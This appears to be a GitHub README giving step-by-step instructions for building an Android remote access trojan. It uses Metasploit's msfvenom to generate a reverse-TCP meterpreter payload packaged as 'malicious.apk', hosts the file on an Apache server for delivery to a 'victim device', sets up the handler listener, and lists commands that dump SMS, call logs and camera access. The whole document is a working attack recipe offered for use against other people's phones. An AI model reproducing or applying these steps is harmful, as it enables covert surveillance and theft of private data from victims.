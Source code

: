 # RAT-for-android
A Guide for making you own RAT(Remote access tool) for android with the help of msfconsole.

# Requirment to create your own RAT.
1.Kali linux
2.metaspolit framework
3.Apache2

# Steps to create RAT(Remote access tool)

1. Ensure that your system is upto date.
   (sudo apt update && sudo apt upgrade -y)

2. Install apache2 in your system.
   (sudo apt install apache2 -y)

3. After installing you need to enable and start apache2 server.
   (sudo systemctl start apache2),
   (sudo systemctl enable apache2)

4. Verify that apache2 is running or not.
 (sudo systemctl status apache2)

5. If you have firewall enable in you system you need to add rule in firewall for apache2.
   (sudo ufw allow 'Apache Full')

6. You wil get you apache2 server folder at (/var/www/html/)

7. Now you have successfully created your apache2 server you can vist you index page of you server at
   (http//{your-ip}/index.html)

8. Next step is to create payload for you RAT apk.

9. We are using msfvenom for creating payload.
    (msfvenom -p android/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=<port> R > malicious.apk).
   
10. LHOST: Your IP address (use ifconfig to find it).  
     LPORT: A port number for listening (e.g., 4444).  
     malicious.apk: The name of the APK file created.

11. After creating apk you can upload it to you server show that anyone with you link can download or you can share apk any way to victim device.

    (mv malicious.apk /var/www/html/) for moving apk to server.

12. Now open msfconsole to monitro the apk and perform task on it on victim device.

# Steps to connect to the paylod in victim device

sudo msfconsole  

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set LHOST {your-ip}

set LPORT {port}

exploit

13. Hit enter to exploit make sure you have successfully install the payload to the victim device.

14. It will get connect to victim device now you can have access to it file manager,sms,calllogs,sysinfo,camer,etc.

15. once connection is successfull try using (dump_sms for sms ,dump_calllog for call logs ,webcam_list , sysinfo for system info, ls to list dir)
